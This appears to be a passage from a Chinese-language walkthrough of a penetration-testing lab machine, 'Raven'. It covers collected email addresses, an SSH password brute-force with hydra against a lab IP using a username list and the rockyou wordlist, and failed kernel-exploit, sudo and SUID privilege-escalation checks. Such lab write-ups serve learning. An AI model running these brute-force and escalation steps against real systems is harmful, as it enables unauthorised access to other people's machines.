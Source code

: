 #### 邮箱信息
- 'users@httpd.apache.org', referenced from :
   /manual/en/ssl/ssl_faq.html

- 'raj@cup.hp.com', referenced from :
   /manual/en/platform/perf-hp.html

---

## 突破防线

#### name.txt:
```
michael
steven
root
```
`hydra -L name.txt -P /usr/share/wordlists/rockyou.txt -I 192.168.2.134 ssh`
ssh弱密码。通过前面的信息搜集，没想到这么简单就得到了一个shell。

![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-11/3.PNG)

## **尝试提权**

#### 内核漏洞check
```
whereis gcc 
```
`Linux Raven 3.16.0-6-amd64 #1 SMP Debian 3.16.57-2 (2018-07-14) x86_64 GNU/Linux`

用了好几个内核漏洞尝试提权，失败。

![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-11/4.PNG)
如果成功，应该显示`Done! Check /etc/passwd to see if the new user was created.`

You can log in with the username 'firefart' and the password 'a'.

---
#### sudo权限检查
```
sudo -l
Sorry, user michael may not run sudo on raven.
```
michael不在sudoer用户组里。

---

suid.sh检查失败

---

#### **ps -ef 和 ps aux区别**
linux有许多版本，都是查看进程的，ps = process  status，区别不大。
![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-11/5.PNG)
![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-11/6.PNG)
